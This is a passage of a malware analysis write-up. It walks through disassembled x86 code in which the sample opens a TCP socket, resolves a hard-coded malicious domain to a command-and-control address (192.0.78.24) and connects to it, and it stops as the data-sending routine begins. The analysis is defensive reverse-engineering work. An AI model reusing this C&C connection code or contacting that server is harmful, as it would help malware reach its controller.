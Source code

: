 Following that, a socket is created:

```
.data:0040064E      push    ecx
.data:0040064F      call    [esi+BUFFER_1.addr_htons]
.data:00400652      mov     [ebp+SOCKADDR.sin_port], ax
.data:00400659      push    0               ; no protocol specified
.data:0040065B      push    SOCK_STREAM
.data:0040065D      push    AF_INET
.data:0040065F      call    [esi+BUFFER_1.addr_socket]
.data:00400662      mov     [ebp+socket], eax ; sd
```

A call to `gethostbyname()` allows to get the IP address of the domain:

```
.data:0040067D      lea     eax, [ebp+malicious_domain]
.data:00400683      push    eax
.data:00400684      call    [esi+BUFFER_1.addr_gethostbyname]
.data:00400687      or      eax, eax
.data:00400689      jnz     short gethostbyname_success
[...]
.data:00400690 gethostbyname_success:                  ; CODE XREF: Network+252↑j
.data:00400690      mov     eax, [eax+0Ch]
.data:00400693      mov     eax, [eax]
.data:00400695      mov     eax, [eax]      ; CnC IP
```

I didn't follow all the pointer shenanigans, but in the end `eax = 0x184E00C0`:

Byte1 | Byte2 | Byte3 | Byte4
----- |------ |------ |------
0x18 | 0x4E | 0x00 | 0xC0
24 | 78 | 00 | 192

=> `192.0.78.24` = IP of the domain.

Once the malware has the IP to contact, it connects the socket:

```
.data:004006AA      push    10h                 ; sizeof(sockaddr)
.data:004006AC      lea     eax, [ebp-1A8h]
.data:004006B2      push    eax                 ; sockaddr
.data:004006B3      push    dword ptr [ebp-4]   ; socket
.data:004006B6      call    [esi+BUFFER_1.addr_connect]
.data:004006B9      or      eax, eax
.data:004006BB      jnz     close_socket_and_sleep
```

If the connection is successful, data are sent to the server.

### Sending and receiving data

Data to send were generated early during malware execution (see address `0x4015A5`), but it's just randomly generated data so I skipped it at first. These data are transformed inside function `0x4010dc` and put inside a buffer pointed by `edi`:
